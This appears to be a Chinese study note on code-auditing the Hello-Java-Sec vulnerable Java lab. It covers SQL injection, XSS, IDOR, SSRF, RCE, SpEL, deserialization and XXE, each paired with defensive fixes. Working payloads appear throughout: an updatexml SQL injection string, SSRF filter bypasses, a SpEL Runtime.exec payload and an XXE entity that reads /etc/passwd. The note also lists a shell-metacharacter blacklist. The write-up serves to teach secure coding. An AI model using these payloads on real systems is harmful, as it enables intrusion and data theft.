# Hello-java-Sec

项目主要是为了开始接触java代码审计

## 项目结构

分层遵循MVC结构（Model - View - Controller）模式

- **controller**

接口路由层，入口，接受http请求，关注路由注解，如@getMapping，接受参数、参数类型等

- **service**

业务处理，接口，比如判断用户是否登录

- **dao / mapper**

输出持久，sql注入

- **config**

配置安全，版本等

- **entity**

数据实体，结构属性，不需要太关注

- **util**

公共工具

## SQLi

### JDBC

开始看项目中的代码，首先有三个注解



- @Api

这是swagger项目中的注解，用于前后端协作

- @RestController

告诉框架，这个类用于接收网络请求

- @RequestMapping("/vulnapi/sqli/jdbc")

请求处理核心，说明`/vulnapi/sqli/jdbc`开头的请求都由这个jdbc类处置

**第一个漏洞点**



直接进行了语句拼接，执行点是`Statement`

提示使用payload

```
id = 1' and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)-- +
```

- `and updatexml()`：报错注入，把`SELECT user()`查询到的数据库用户名拼接到错误信息中返回

结果是

```
java.sql.SQLException: XPATH syntax error: '~root@172.17.0.1~'
```

**第二个漏洞点**



使用了PreparedStatement预编译语句防止sql注入

但是顺序出现了问题，已经拼接完成后的语句传入了预编译语句

使用payload：`/vul2?id=2%20and%201=1`

后面没有拼接，也不需要`-- -`；

**第三个漏洞点**



**JdbcTemplate**

是spring对于JDBC的封装，只需要提供数据源和sql语句

安全的语句应该提供：

```
return jdbctemplate.queryForMap(sql_safe, id); 
```

**安全的参数绑定**

```
st.setString(1, id);
```

把传入参数当作普通字符串文本进行填入

**黑名单过滤**



进行过滤后也比较安全

**ESAPI过滤**

使用了`OWASP ESAPI`库，进行了输入编码

```java
String sql = "select * from users where id = '" + ESAPI.encoder().encodeForSQL(oracleCodec, id) + "'";
```

在拼接之前，先进行了编码，如果发现sql有特殊字符，如`\`、`'`等会加上转义字符，变成普通的文本

但是也并不完美，可能会出现其他的unicode编码等绕过过滤

**强制类型转换**

```java
public Map<String, Object> safe4(Integer id) {}
```

把id的格式强制为int类型

**正则过滤**

```java
String pattern = "^[a-zA-Z0-9]+$";
```

只能输入字母或数字

### MyBatis

是一个ORM框架（Object-Relational Mapping，对象关系映射）

需要联系Java的面向对象和关系型数据库

不需要写原生JDBC语句，只需要写一段sql，告诉MyBatis怎么查

**怎么写sql**

- 注解方式

```java
public interface UserMapper {
    @Select("SELECT * FROM users WHERE id = #{id}")
    User findById(Integer id);
}
```

- xml配置文件方式，适合复杂sql

接口只写方法签名，具体的sql写在同名的.xml文件里

```java
public interface UserMapper {
    List<User> queryByIdAsString(String id);
}
```

```xml
<select id="queryByIdAsString" resultType="com.best.hello.entity.User">
    SELECT * FROM users WHERE id = '${id}'
</select>
```

- MyBatis3

提供了基于注解的配置，不需要xml

```java
@Select("select * from users where user like CONCAT('%', #{user}, '%')")
List<User> searchSafe(@Param("user") String user);
```

**传入参数**

传入参数只有两种写法

- `#{}`

作用相当于`PreparedStatement`的占位符，会进行预编译，防止注入

- `${}`

作用完全等于字符串拼接

**orderby注入**



在xml中代码：

```xml
<select id="orderBy" resultType="com.best.hello.entity.User">
        select *
        from users
        order by ${field} ${sort}
</select>
```

为了使用orderby功能，如果使用`#{}`，会把传入参数变成例如`'username'`，排序功能失效，只能使用`${}`

**order by注解方式注入**

```java
@Select("select * from users where user like '%${user}%'")
List<User> orderBy2(@Param("field") String field, @Param("sort") String sort);
```

**搜索注入**

```java
@Select("select * from users where user like '%${user}%'")
List<User> searchVul(String user);
```

为了实现模糊查询，比如：

```
select * from users where user like '%123%'
```

会造成拼接，正确写法是

```
@Select("select * from users where user like CONCAT('%', #{user}, '%')")
```

## XSS

**反射型**



不做任何处理或者只加了`response.getWriter().println(content);`

```java
// 不做任何处理输出到缓冲区
response.getWriter().println(content);
// 打包发给浏览器
response.getWriter().flush();
```

正确的写法是，告诉浏览器以text执行

```java
response.setContentType("text/plain;charset=utf-8");
```

**存储型**



获取到用户的输入后，直接存储到数据库中

```java
@Insert("INSERT INTO xss(user, content, date) values(#{user}, #{content}, #{date}) ")
Integer add(String user, String content, String date);
```

在数据库中存储



每次打开页面都会弹窗

**安全方法**

```java
// html实体编码，会把<等符号编码
String safe_content = HtmlUtils.htmlEscape(content);
xssMapper.add(user, safe_content, date);

// ESAPI 和 OWASP 安全库，更安全
String s = ESAPI.encoder().encodeForHTML(content);
String s = Encode.forHtml(content);
```

## IDOR

**水平越权**



直接根据参数返回了信息

应该进行校验

```java
    public Object safe(String name, HttpSession session) {
        log.info("[safe] 水平越权查询：{}", name);
        String loginUser = (String) session.getAttribute("LoginUser");
        Map<String, String> m = new HashMap<>();

        // 判断当前session与要查询的用户是否一致
        if (loginUser.equals(name)) {
            m.put("user", loginUser);
        } else {
            m.put("info", "无权限查询其他用户！");
        }
        return JSON.toJSONString(m);
    }
```

## SSRF



有一个并不强的过滤，可以通过：绕过

```
# 十进制ip地址
http://168302434
# 短链接
http://surl-8.cn/0
```

安全方法最好采用白名单的方式

## RCE

**ProcessBuilder**



代码中，cmdlist是出现问题的核心，直接拼接了路径，而且能够使用`;`拼接命令

```java
// Java的进程构建器类，能够在操作系统执行命令
ProcessBuilder pb = new ProcessBuilder(cmdList);
```

安全方法是对filepath进行一个校验

```java
	Security.checkOs(filepath)

// 安全校验
    public static boolean checkOs(String content) {
        String[] black_list = {"|", ",", "&", "&&", ";", "||"};
        for (String s : black_list) {
            if (content.contains(s)) {
                return true;
            }
        }
        return false;
    }
```

**RuntimeVul**



也是直接执行了cmd命令

正确的方法可以只让其调用白名单中的命令

```java
// 检查用户提供的命令是否在白名单中
String command = cmd.split("\\s+")[0];
if (!commands.contains(command)) {
      return "不在白名单中";
}
```

这种分割方式也存在一定的风险，参数本身没有经过限制

继续理解下`Runtime.exec()`

是通过创建一个比如`whoami`的进程来读取`stdout`，而不是cmd.exe去执行

如果访问：`/vulnapi/RCE/Runtime/safe?cmd=ls&whoami`这种方式没有回显，但是并不能说明执行了whoami，因为进程并不会像cmd一样理解&

**ProcessImpl**

通过反射调用ProcessImpl



通过反射实例化后，传入参数调用

**LoadJs**

通过脚本引擎注入，Java提供了`ScriptEngineManager`能够直接运行js代码



把传入的url参数，直接凭借到了load中

之后调用engine去指定的文件路径执行代码

相当于ssrf执行为了RCE

**Groovy**

`Groovy`是运行在JVM的一种动态语言，`GroovyShell`相当于执行的引擎



`Groovy`对java基础类进行了JDK扩展，在Java的string方法添加了`.execute()`方法

如果有反序列化入口，就会经常构建groovy对象尝试RCE

### SpEL

Spring Expression Language表达式注入

SpEL能够让开发者在配置文件或xml等中，动态获取Bean属性



`StandardEvaluationContext()`中，EvaluationContext决定了表达式有多大的权限

这个方法有最高的权限

传入`T(java.lang.Runtime).getRuntime().exec('calc')`

即可弹出计算器

```
T()		SpEL的语法，获取指定名称的java类
```

安全方法：可以将`StandardEvaluationContext()`替换为`SimpleEvaluationContext`


## 反序列化

**ObjectInputStream**



把输入流通过`readObject()`魔术方法进行反序列化

复现可以通过cc5这条链，生成bin之后转化为base64之后传入

防御：使用安全包装类，相当于设置了白名单

```java
ValidatingObjectInputStream ois = new ValidatingObjectInputStream(stream);
```

有的使用了：`readUnshared()`方法代替`readObject()`方法，但是无法实现防御

- readUnshared()：如果字节流中出现了同一对象的引用，readObject会返回一个内存地址，但是readUnshared会返回一个独立的副本对象，防止外部代码共享来篡改内部状态，不能作为安全依赖

**SnakeYaml**



使用默认构造器创建了yaml对象

防御：传入白名单构造器`Yaml y = new Yaml(new SafeConstructor());`

**XMLDecoder**



直接调用了`XMLDecoder`进行解码

防御：使用XStream配置白名单类

```
xstream.allowTypes(new Class[]{SafeUser.class});
```

## XXE

XML外部实体注入，在解析普通xml文本时，夹带了危险方法

XML是用来传输和存储数据的标记语言，有一个功能：DTD，文档类型定义。允许用户自定义实体。

```xml
<!-- 正常用法 -->
<!DOCTYPE note [
  <!ENTITY author "张三">
]>
<note>
  <author>&author;</author>
</note>

<!-- 恶意用法，指向了外部资源 -->
<!DOCTYPE note [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<note>
  <content>&xxe;</content>
</note>
```

外部实体能够读取本地文件、发送http请求，甚至加载外部DTD

**XMLReader**



XMLReader是处理xml最底层的接口，采用时间驱动方式，读到什么标签就触发什么动作

防御：

- 禁用DTD

```java
xmlReader.setFeature(
    "http://apache.org/xml/features/disallow-doctype-decl", true);
```

- 如果需要DTD，可以禁止外部实体

```java
// 关闭通用外部实体（&xxe;解析正文时引用）
xmlReader.setFeature(
    "http://xml.org/sax/features/external-general-entities", false);
// 关闭参数外部实体（%xxe;在DTD内部引用）
xmlReader.setFeature(
    "http://xml.org/sax/features/external-parameter-entities", false);
// 关闭加载外部 DTD（<!DOCTYPE root SYSTEM "...">，文档顶部引用）
xmlReader.setFeature(
    "http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

**SAXParser**

SAX是一个xml解析器



同样也可以使用setFeature进行防御

**XMLBeam**

使用xpath（xml路径语言，在xml文档里找节点）将xml文档投到java接口

